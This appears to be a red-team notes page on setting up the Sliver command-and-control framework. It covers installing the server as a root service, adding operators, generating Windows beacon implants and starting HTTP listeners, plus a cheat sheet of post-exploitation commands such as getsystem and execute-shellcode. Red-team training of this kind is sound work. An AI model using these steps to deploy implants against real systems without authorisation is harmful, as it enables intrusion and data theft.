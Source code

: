 ## Installing Sliver
```bash
# Below is the easy way
####### IF YOU DO IT BELOW, BEWARE OF ERRORS WITH OUTDATED VERSIONS DUE TO HARDCODED VERSION IN WGET URL ##################
wget -O /bin/sliver-server https://github.com/BishopFox/sliver/releases/download/v1.5.43/sliver-server_linux 
chmod 755 /bin/sliver-server

wget -O /bin/sliver https://github.com/BishopFox/sliver/releases/download/v1.5.43/sliver-client_linux
chmod 755 /bin/sliver

# Unpack assets, as user
sliver-server unpack --force

# Windows C Compiler
sudo apt install mingw-w64



```
We can make it run on startup by making a service
```bash
vi /etc/systemd/system/sliver.service
# Paste below file
```

```
[Unit]
Description=Sliver
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=on-failure
RestartSec=3
User=root
ExecStart=/bin/sliver-server daemon

[Install]
WantedBy=multi-user.target
```
Then
```bash
chmod 600 /etc/systemd/system/sliver.service
systemctl enable sliver && systemctl start sliver

# If you run into errors, it might be because sliver files already exist on your system, in /home/kali/.sliver, /root/.sliver, and ~/.sliver

# Check that the server is up
netstat -antopul


```

## Adding a New Operator
```bash
cd ~
sliver-server
# Review command
[server] sliver > help new-operator
# Listen on specific IP
[server] sliver > new-operator -n attacker -l tun0

# More generous allow

[server] sliver > new-operator -n attacker2 -l 0.0.0.0
# Enable multiplayer
[server] sliver > multiplayer

# New session
# Import the attacker config
sliver import attacker_0.0.0.0.cfg


```

## Armory
Sliver's armory is a plugin system
```bash
# Get help
sliver > armory
# Install all
sliver > armory install all
```


## Generating Beacons
There's a lot of factors. The below generates a beacon that is called 'http_beacon', is a windows executable, listens on 127.0.0.1 (default port 80)
```bash
sliver > generate beacon help
sliver > generate beacon --http 127.0.0.1:443 --name httpbeacon443 --os windows
```

## Setting up a Listener
```bash
http --lport 80
```
## Cheatsheet

| **Command**                                                               | **Description**                                              |
| ------------------------------------------------------------------------- | ------------------------------------------------------------ |
| `help`                                                                    | Displays the commands and their descriptions                 |
| `http -L <Local IP> -l <Port>`                                            | Set up HTTP listener                                         |
| `profiles new --http <Local IP>:<Port> --format shellcode <Profile Name>` | Create a new C2 profile                                      |
| `stage-listener --url tcp://<Localhost:Port> --profile <Profile name>`    | Set up Stager listener                                       |
| `generate --http <Local IP>:<Port> --os <OS>`                             | Generates a session implant                                  |
| `generate beacon --http <Local IP>:<Port> --os <OS>`                      | Generates a beacon implant                                   |
| `sessions`                                                                | Lists active/inactive sessions                               |
| `sessions -K`                                                             | Removes all sessions available or not                        |
| `sessions prune`                                                          | Removes unavailable sessions                                 |
| `sessions -k -i <session>`                                                | Removes the specified session                                |
| `beacons`                                                                 | Lists active/inactive beacons                                |
| `tasks`                                                                   | Lists the pending or completed tasks ran by the operator     |
| `getsystem`                                                               | Attempts to get a session as NT AUTHORITY\SYSTEM             |
| `interactive`                                                             | Tasks the beacon to spawn a session that becomes interactive |
| `cd`                                                                      | Change directory                                             |
| `ls`                                                                      | Lists the contents of the directory                          |
| `download <file/directory>`                                               | Downloads a file/directory                                   |
| `upload`                                                                  | Uploads a file                                               |
| `execute-assembly`                                                        | Executes a .NET assembly in a child process                  |
| `execute-shellcode`                                                       | Executes the specified shellcode in process                  |
| `multiplayer`                                                             | Enables multiplayer mode on the server                       |
| `armory install <alias/extension>`                                        | Installs the given alias/extension                           |
| `armory install all`                                                      | Installs all of the available aliases/extensions             |